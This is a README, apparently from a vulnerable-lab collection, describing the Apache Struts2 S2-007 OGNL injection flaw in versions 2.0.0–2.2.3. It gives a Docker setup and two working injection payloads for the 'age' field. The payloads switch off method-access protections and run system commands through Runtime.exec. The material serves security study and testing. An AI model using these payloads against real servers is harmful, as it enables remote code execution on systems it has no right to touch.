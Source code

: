 # S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When `<ActionName> -validation.xml` configured validation rules. If the type validation conversion fails, the server will splice the user-submitted form value strings, then performing an OGNL expression parsing and returning.

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

And `UserAction-validation.xml` configuration:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

When the user submits `age` as a `str` instead of an `int`, the server splices `"'" + value + "'"` with the code and then use the OGNL expression parse it. To make a successful expliot, we need find a form field configured with similar validation rules to make a conversion error. And then you can inject any OGNL expression code by the way just like SQL single quotes injected.

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker compose build
docker compose up -d
```

## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:

![](1.jpeg)
